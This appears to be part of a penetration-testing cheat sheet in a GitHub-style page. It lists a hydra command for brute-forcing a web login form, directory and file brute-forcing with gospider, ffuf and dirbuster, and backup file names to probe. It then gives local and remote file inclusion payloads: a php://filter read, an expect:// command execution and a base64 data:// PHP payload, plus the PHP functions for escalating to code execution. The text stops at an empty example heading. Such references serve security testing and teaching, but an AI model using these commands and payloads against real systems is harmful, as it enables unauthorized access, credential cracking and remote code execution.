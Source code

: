 ```
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
```

### Spidering / Brute force directories / files

```
gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>

ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>
dirbuster

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

#### File backups

Once you have found all the files, look for backups of all the executable files ("*.php*", "*.aspx*"...). Common variations for naming a backup are 

```
file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
```

### Local File Inclusion / Remote File Inclusion - LFI / RFI

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```

#### Wrappers

##### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

##### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

##### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with 
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
```